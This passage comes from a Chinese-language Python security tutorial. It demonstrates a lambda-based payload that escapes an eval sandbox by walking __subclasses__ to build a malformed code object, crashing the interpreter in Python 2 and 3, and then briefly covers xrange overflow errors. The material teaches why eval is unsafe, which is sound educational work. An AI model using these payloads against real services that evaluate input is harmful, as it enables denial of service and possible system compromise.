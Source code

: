 这是通过使用匿名`lambda`函数实现的相同效果：

```py
>>> (lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x])('code')
[<type 'code'>]
```

接下来，我们想要执行这个代码对象。然而，`code`对象不能直接调用。它们需要绑定到一个函数才能被调用。这是通过将前面的`lambda`函数包装在外部`lambda`函数中实现的：

```py
>>> (lambda f: (lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x])('code'))
<function <lambda> at 0x7f8b16a89668
```

现在我们的内部`lambda`函数可以分两步调用：

```py
>>> (lambda f=(lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x][0]): f('function')(f('code')))
<function <lambda> at 0x7fd35e0db7d0>
```

最后，我们通过这个外部的`lambda`函数调用`code`对象，传递了大多数默认参数。代码字符串被传递为字符串`BOOM`，当然，这是一个虚假的代码字符串，会导致 Python 解释器崩溃，产生核心转储：

```py
>>> (lambda f=(lambda x: 
[c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x][0]): 
f('function')(f('code')(0,0,0,0,'BOOM',(), (),(),'','',0,''),{})())()
Segmentation fault (core dumped)
```

这表明在任何情况下，即使没有内置模块的支持，`eval`都是不安全的，并且可以被聪明而恶意的黑客利用来使 Python 解释器崩溃，从而可能控制系统。

请注意，相同的利用在 Python 3 中也有效，但是我们需要对`code`对象的参数进行一些修改，因为在 Python 3 中，`code`对象需要额外的参数。此外，代码字符串和一些参数必须是`byte`类型。

以下是在 Python 3 上运行的利用。最终结果是相同的：

```py
$ python3 test_eval.py 
"(lambda f=(lambda x: [c for c in ().__class__.__bases__[0].__subclasses__() 
  if c.__name__ == x][0]): f('function')(f('code')(0,0,0,0,0,b't\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01d\x00\x00S',(), (),(),'','',0,b''),{})())()"
Segmentation fault (core dumped)
```

## 溢出错误

在 Python 2 中，如果`xrange()`函数的范围无法适应 Python 的整数范围，则会产生溢出错误：

```py
>>> print xrange(2**63)
Traceback (most recent call last):
    File "<stdin>", line 1, in <module>
OverflowError: Python int too large to convert to C long
```

